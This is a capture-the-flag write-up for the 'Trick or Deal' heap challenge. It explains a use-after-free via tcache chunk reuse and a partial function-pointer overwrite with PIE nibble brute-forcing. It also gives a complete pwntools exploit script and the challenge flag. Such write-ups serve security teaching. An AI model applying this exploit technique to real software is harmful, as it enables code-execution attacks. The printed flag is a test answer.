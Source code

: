 # Trick or Deal

We are given the binary, linker and libc files.

Running `checksec`
```bash
gef➤  checksec
Canary                        : ✓ 
NX                            : ✓ 
PIE                           : ✓ 
Fortify                       : ✘ 
RelRO                         : Full
```

## Analysis
Before displaying the menu (pre-initialization stage), the program does several things:
- Create a heap memory (`storage`) of size 0x50
- Copies the global variable data to `storage`
- Stores a function ptr to `printStorage()` in `storage + 0x48`

The binary has several features:
- `See the weaponry` - Displays a list of weapons by calling `(storage + 0x48)()`
- `buy` - [Dummy feature that does nothing]
- `make offer` - If provide 'y', it creates a heap memory of any size depending on your input. Then, it allows you to write content to the heap memory.
- `steal` - free `storage` heap memory.
- `leave` -  exit the program

There is a win function called `unlock_storage`. So, this might be a ret2win challenge. Unfortunately, it is not.

If we can modify the function ptr to `unlock_storage` instead of `printStorage`, we can execute the `unlock_storage` function with `See the weaponry` feature as it calls `(storage + 0x48)()`.
<p align="center">
    <kbd><img src="images/trick-or-deal.PNG" caption="Challenge" /></kbd><br/>
</p>

Clearly, we can do it with `make offer` feature as it allows us to write any data to the heap memory. However, we need to allocate `storage` chunk in `make offer` feature so that we can modify its content. 

So, we need to abuse tcachebin. We allocate a random heap memory of size 0x50 (80). When we free the `storage` memory using `steal` feature, it will be sent to the tcachebin instead of the heap. Then, we allocate heap memory of size 0x50 again. This time, the memory allocated is the `storage` memory.

Issue: PIE is enabled, so we don't know the exact address of `unlock_storage` function.

Solution: 
- From ghidra, the .text section is from 0x9b0 - 0x11e1. So, the least significant byte and the lower nibble of second least significant byte is unaffected by ASLR. The upper nibble of second least significant might be unaffected by ASLR (it depends).
<p align="center">
    <kbd><img src="images/trick-or-deal-1.PNG" caption="Challenge" /></kbd><br/>
</p>

- The function ptr initially contains the address of `printStorage` function (in .text section). So, we can perform partial overwrite since the only difference between the address of `printStorage` and `unlock_storage` is the least significant byte and the lower nibble of the second least significant byte. 

However, we just can't overwrite the lower nibble of the second least significant byte. We had to overwrite the second least significant byte. So, we had to brute force the upper nibble of the second least significant byte. 

## Exploit
Idea: Allocate random heap memory of size 0x50 (80). Send the `storage` heap memory to tcachebin by freeing it. Allocate `storage` heap memory and partial overwrite the last 2 bytes of `printStorage` function to the last 2 bytes of `unlock_storage` function. We had to brute force the upper nibble of the second least significant byte. Call `see weapons` to invoke `unlock_storage` function ptr.
```python
from pwn import *

while True:
    elf = ELF('./trick_or_deal')
    r = elf.process()
    #r = remote('64.227.37.154', 32149)
    #pause()
    
    def make_offer(size, content):
        r.sendlineafter(b'What do you want to do? ', b'3')
        r.sendlineafter(b'you want to make an offer(y/n): ', b'y')
        r.sendlineafter(b'How long do you want your offer to be? ', size)
        r.sendafter(b'What can you offer me? ', content)
    
    def steal():
        r.sendlineafter(b'What do you want to do? ', b'4')
    
    def see_weapons():
        r.sendlineafter(b'What do you want to do? ', b'1')
    
    try:
        make_offer(b'80', b'A')
        steal()
        # on ghidra, win: 0x00100eff
        make_offer(b'80', b'A' * 72 + b'\xff\x0e')
        see_weapons()
        r.recvuntil(b'Bruteforcing Storage Access Code')
        print("GOT IT!!!!!")
        r.interactive()
    except Exception as e:
        with context.local(log_level = 'error'):
            r.close()
        del r
```

Flag: `HTB{tr1ck1ng_d3al3rz_f0r_fUn_4nd_pr0f1t}`